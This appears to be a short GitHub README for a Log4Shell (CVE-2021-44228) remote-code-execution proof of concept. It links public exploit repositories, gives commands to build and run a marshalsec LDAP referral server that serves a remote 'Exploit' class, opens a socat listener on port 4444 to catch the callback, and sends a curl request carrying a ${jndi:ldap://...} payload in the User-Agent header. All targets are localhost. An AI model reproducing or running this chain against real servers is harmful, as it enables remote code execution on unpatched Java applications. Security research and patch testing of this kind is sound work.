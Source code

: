 # Inspiration

Exploit: https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce.git
Exploit: https://github.com/lunasec-io/lunasec/blob/master/tools/log4shell/payloads/hotpatch-payload/src/main/java/Log4ShellHotpatch.java

LDAP: 

download another project and run *LDAP server implementation returning JNDI references*
[https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java)
```
git clone https://github.com/mbechler/marshalsec.git
cd marshalsec
# Java 8 required
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"
```


# Exploit

## Prerequisites

- vulnerable log4j
- com.sun.jndi.ldap.object.trustURLCodebase must be true (defaults to false since https://www.oracle.com/java/technologies/javase/8u121-relnotes.html)

Listen:

```bash

socat -d -d TCP4-LISTEN:4444 STDOUT

```

Go:

````bash

curl -H 'User-Agent: ${jndi:ldap://127.0.0.1:1389/Exploit}' http://localhost:1337

```

